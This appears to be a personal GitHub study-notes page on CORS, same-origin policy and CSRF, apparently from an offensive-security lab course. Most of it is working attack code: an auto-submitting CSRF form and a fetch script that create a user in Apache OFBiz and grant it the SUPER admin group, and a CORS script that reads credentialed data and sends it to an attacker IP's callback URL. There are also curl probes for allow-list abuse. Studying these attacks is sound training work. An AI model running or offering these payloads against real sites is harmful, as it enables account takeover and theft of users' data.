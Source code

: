 ### Same Origin Policy 
SOP blocks JavaScript and our browsers from accessing cross-origin resources, but it does not block the outgoing requests for such resources、

if the cookie has SameSite=Lax, the browser will not send it even if the preflight request indicates that the destination server allows credentials on CORS requests.
```
URL	RESULT	REASON
https://foo.com/myInfo	Allowed	Same Origin
http://foo.com/users.json	Blocked	Different Scheme and Port
https://api.foo.com/info	Blocked	Different Domain
https://foo.com**:8443**/files	Blocked	Different Port
https://bar.com/analytics.js	Blocked	Different Domain
```
### curl requesting cors settings
```
curl -v -X OPTIONS http://192.168.154.155/exercise2
```
### Servers can set several headers1 to enable CORS
···
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Allow-Origin: https://offensive-security.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: X-UserId
···
### CSRF(local test require apache2 service)
burp traffic of add user 
```
POST /webtools/control/createUserLogin HTTP/1.1
Host: ofbiz:8443
Connection: close
Content-Length: 178
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://ofbiz:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ofbiz:8443/webtools/control/createnewlogin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=76A7BCC53C2B9BF49B21F99D2D8CA5D5.jvm1; OFBiz.Visitor=10000

enabled=&partyId=&userLoginId=test&currentPassword=password&currentPasswordVerify=password&passwordHint=&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=
```
Create html payload ofbiz.html
```
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
  <input type="hidden" name="enabled">
  <input type="hidden" name="partyId">
  <input type="hidden" name="userLoginId" value="test">
  <input type="hidden" name="currentPassword" value="password">
  <input type="hidden" name="currentPasswordVerify" value="password">
  <input type="hidden" name="passwordHint">
  <input type="hidden" name="requirePasswordChange" value="N">
  <input type="hidden" name="externalAuthId">
  <input type="hidden" name="securityQuestion">
  <input type="hidden" name="securityAnswer">
  </form>
</body>
</html>
```
Use js to make request
```
<html>
<head>
<script>
  var username = "csrftest2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" +username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";
  function send_create() { 
  console.log("Creating user..."); 
  fetch(host+create_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body : create_params }
  ).then(function(response) {
    send_admin();
  }); 
}

function send_admin() { 
  console.log("Adding admin role..."); 
  fetch(host+admin_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded' 
    },
    body : admin_params }
  ).then(
    console.log("Should be done...") 
  );
}

send_create();
</script>
</head>
<body></body>
</html>
```
### Trusting any domain 
```
<html>
<head>
<script>
var url = "https://cors-sandbox/exercise1";
function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    Cookie: 'SessionCookie=1123581321345589144',
    credentials: 'include',
    Origin: 'hellocors'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://192.168.45.242/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
    console.log(data);
  });
}
get_code();
</script>
</head>
<body></body>
</html>
```
### Improper domain allow list
finding the allowed domain
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/6bb566fa-88c8-4489-bbca-a812e92ec071)
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/ba46f78b-79d8-4cc5-b6d0-8d10ff7ef7bc)
```
curl -X "OPTIONS" -i -k https://cors-sandbox/allowlist
curl -X "OPTIONS" -i -H "Origin: http://www.offensive-security.com" -k https://cors-sandbox/allowlist
```
get the cookie
```
chrome access https://cors-sandbox/
dev tools - > network - cookies
```
get the flag 
```
curl -X "GET" -v -k -H "Origin: https://www.offensive-security.com" -H "Cookie: SessionCookie=1123581321345589144" https://cors-sandbox/exercise2
```
